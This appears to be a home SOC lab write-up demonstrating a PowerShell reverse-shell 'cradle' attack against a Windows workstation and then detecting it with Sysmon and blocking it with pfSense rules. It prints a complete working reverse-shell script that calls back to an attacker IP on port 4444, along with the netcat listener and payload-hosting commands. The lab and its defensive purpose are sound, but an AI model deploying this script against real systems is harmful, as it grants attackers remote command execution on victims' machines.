 
# Reverse Shell Backdoor with Powershell Cradle Attack

## Overview

- **Target:** Windows Workstation (SOC.LAB domain)
  - **IP Address:** 192.168.10.20
  - **Domain:** SOC.LAB
- **Attacker:** Kali «
  - **IP Address:** 192.168.20.30

## Objective
Create and deploy a Malware PowerShell script to establish a reverse shell on a Windows workstation. The attacker uses Kali Linux to serve the payload and capture the connection, giving them remote access to the Windows's machine.

## Attack Execution Timeline

### 1. **Create Malware PowerShell Payload**

Firstly, I created a malicious PowerShell script (`malicious.ps1`) that establishes a reverse shell back to my Kali's machine, based on this [git](https://github.com/das-lab/mpsd) and [post](https://learn.microsoft.com/en-us/defender-endpoint/run-detection-test?source=recommendations&view=o365-worldwide):

```powershell
$client = New-Object System.Net.Sockets.TCPClient("192.168.20.30", 4444)
$stream = $client.GetStream()
$writer = New-Object System.IO.StreamWriter($stream)
$reader = New-Object System.IO.StreamReader($stream)

# Send a message to confirm the connection
$writer.WriteLine("Connected to backdoor!")
$writer.Flush()

while ($true) {
    # Receive command from the Kali
    $writer.Write("> ")  
    $writer.Flush()    
    $command = $reader.ReadLine()
    
    # If the command is "exit", close the connection
    if ($command -eq "exit") {
        break
    }
    
    # Execute the command on the Windows machine and capture output
    $output = Invoke-Expression $command 2>&1
    
    # Send the output back to the Kali
    $writer.WriteLine($output)
    $writer.Flush()
}

$client.Close()
```

### 2. **Set Up HTTP Server to Serve Payload**

Once the payload script was created, I hosted an HTTP web server just to simulate the Windows user to download malware through a link. Meanwhile I used Netcat to listen for an incoming connection from the reverse shell:

```bash
python3 -m http.server 80
```
```bash
nc -lvnp 4444
```

### 4. **Victim Downloads and Executes the Malicious Payload**

After the Windows user has downloaded and executed the malicious payload,it bypasses the PowerShell execution policy and downloads the malicious script from the attacker’s web server to the target machine. Once executed, the script initiates the reverse shell and connects back to my kali’s machine.

Here we can see that the User has succefully downloaded the Malware and the commands are being executed via **malware.ps1** (underlined in red):

![downloadedMalware](https://github.com/user-attachments/assets/1462d7bf-69e2-41a0-9a34-2c50f69edf1e)

And on the Kali machine we have access to the Windows Powershell:

![Reverse_Shell](https://github.com/user-attachments/assets/f88cc2f3-81a3-4c9a-9e44-9c349c03330b)


## **Monitoring Windows Logs**

Using Sysmon Logs we can see that the Kali machine started a connection with the Victim Machine, with the ID:3 :

![FirstConnection1](https://github.com/user-attachments/assets/251d4a2d-9e59-4406-824a-bacd94719d72)


After successfully establishing the reverse shell, We can see what commands the could run every command that i wanted to on that Windows machine or gather information about the system. Some useful commands executed during the attack include:

- **`whoami`** – To confirm the user currently logged in:

![whoami](https://github.com/user-attachments/assets/7a988e9f-9477-4124-ba5f-e5a70b6656cb)



- **`tasklist`** – To list all running processes:
  
![tasklist](https://github.com/user-attachments/assets/9751f108-cbbe-4467-b7e1-49f94d57b2cb)


- **`ipconfig`** – To display the network configuration, including IP addresses:
  
![ipconfig](https://github.com/user-attachments/assets/78b34a03-65f9-4b65-b641-ba866db86f93)


- **`systeminfo`** – To gather detailed information about the operating system and hardware:
  
![systeminfo](https://github.com/user-attachments/assets/3f524861-1014-4602-b281-2b24def33d74)


## PfSense Configuration

1- **Block Unauthorized Outbound Traffic (Reverse Shell Protection):**

![rule1](https://github.com/user-attachments/assets/ba106ecb-9147-4d63-8dda-af2b43ab352b)


**Explanation:**  
Reverse shells typically use common TCP ports (like 4444) to establish outbound connections to an attacker’s machine, this rule blocks these outbound connections, preventing compromised systems from connecting back to kali.


2- **Restrict PowerShell Downloads:**

![rule2](https://github.com/user-attachments/assets/48c6ac50-19e7-4254-ba25-7854df7ae71b)

**Explanation:**  
PowerShell cradle attacks often download scripts via HTTP/HTTPS. This rule blocks PowerShell from making external web requests, mitigating PowerShell-based malware delivery.


Note: In this experiment, CrowdSec was disabled to allow this action to proceed, but the rules are on the [configs directory](https://github.com/NunooFerreira/SOC-Lab-Home-Cybersecurity-Monitoring/blob/main/configs/CrowdSec_configs/custom_reverse_powershell.yaml).


